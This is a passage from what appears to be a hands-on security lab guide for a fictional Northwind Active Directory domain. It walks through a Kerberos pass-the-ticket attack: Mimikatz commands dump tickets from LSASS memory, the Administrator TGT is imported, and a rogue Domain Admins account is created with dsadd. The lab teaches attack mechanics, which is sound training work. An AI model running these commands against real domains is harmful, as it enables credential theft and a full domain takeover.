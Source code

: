 1. []Type in the following commands to create a folder for tickets and start Mimikatz.

    ```console
    mkdir C:\tickets
    cd C:\tickets
    Mimikatz.exe
    ```

1. []Inside the Mimikatz command prompt, enter the following commands:
    ```console
	privilege::debug
    sekurlsa::tickets /export
    exit
    ```

    The first command will enable the SeDebug privilege.

    The second command will scan LSASS memory for kerberos tickets. Each ticket is exported in a .kirbi file in the current folder.

>[!important]Keep the session open for the next task.

You have completed the TGT extraction task. You can now move on to importing the tikcet into the attacker's session.

===

### Task 3: Use extracted ticket to gain privilege
In this task, you will import the TGT into attacker's session.

1. []If not done already, sign in **WIN-CLI2** with following credentials:  
	Username: **+++NORTHWIND\david+++**  
	Password: Please type the password 

1. []Right-click the **Start** menu and select **Windows Terminal (Admin)**.
    
    *Note: you will prompted to enter david's password*

1. []Run the following command to create a new admin account in the Active Directory domain.

    ```console
    dsadd user "CN=rogueAdmin,CN=Users,DC=northwindtraders,DC=com" -disabled no -pwd MyStr0ng!Mdp -memberof "CN=Domain Admins,CN=Users,DC=northwindtraders,DC=com"
    ```

    >You will observe an Access Denied error message. This is expected as david is a regular user.

1. []Open C:\tickets in the file explorer and locate the file containing `Administrator@krbtgt`in the name. That is the TGT for Administrator. Keep the file explorer window opened.

1. []Type in the following commands to start Mimikatz:

    ```console
    cd C:\tickets
    Mimikatz.exe
    ```

1. []Inside the Mimikatz command prompt, enter the following commands:
    ```console
	privilege::debug
    kerberos::ptt file_name.kirbi
    exit
    ```
    >_Replace file_name.kirbi with the file name_
